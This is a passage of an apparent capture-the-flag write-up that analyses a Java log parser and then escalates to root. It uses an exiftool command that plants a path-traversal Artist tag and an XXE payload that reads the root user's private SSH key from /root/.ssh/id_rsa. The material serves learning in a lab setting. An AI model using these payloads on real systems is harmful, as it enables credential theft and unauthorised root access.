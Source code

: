 Here, the code starts by reading the file `/opt/panda_search/redpanda.log` line by line and does the following:

* Is this line about a `.jpg` file?
```Java
  public static boolean isImage(String filename) {
    if (filename.contains(".jpg"))
      return true; 
    return false;
  }
```

* IF no, leave.

* IF yes, run the function `parseLog` on that line:

```Java
  public static Map parseLog(String line) {
    String[] strings = line.split("\\|\\|");
    Map<Object, Object> map = new HashMap<>();
    map.put("status_code", Integer.valueOf(Integer.parseInt(strings[0])));
    map.put("ip", strings[1]);
    map.put("user_agent", strings[2]);
    map.put("uri", strings[3]);
    return map;
  }
```

Here it splits the line on the `||` characters, where the first argument is a status code, must be an `int`, second parameter and the third are strings, and the fourth one is the URI to the image. So the format in this `.log` file must be as following:

```
[INT] || [STR] || [STR] || [URI]
```

* The program then gets the value in the `Artist: ` field in the jpg headers, and runs `addViewTo` to open the xml file `[ARTIST]_creds.xml`, and that's enough for me! I just want the program to read a poisoned XML file that I made and then get root access, since the use `root` is the one who's running this program!

---

## XXE To Root

I started by making a poisoned jpg file that has `Artist: ` tag as a path to my XML file, I made it with paint and executed the following command to modify its headers:

```bash
└─$ exiftool -Artist="../tmp/pwn"  jpgpayload.jpg
```

Then I crafted my XXE payload and named it `pwn_creds.xml` to read the private SSH key of the root user:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY sp SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
  <author>pwn</author>
  <image>
    <uri>/../../../../../../tmp/jpgpayload.jpg</uri>
    <views>1</views>
    <foo>&sp;</foo>
  </image>
  <totalviews>2</totalviews>
</credits>
```
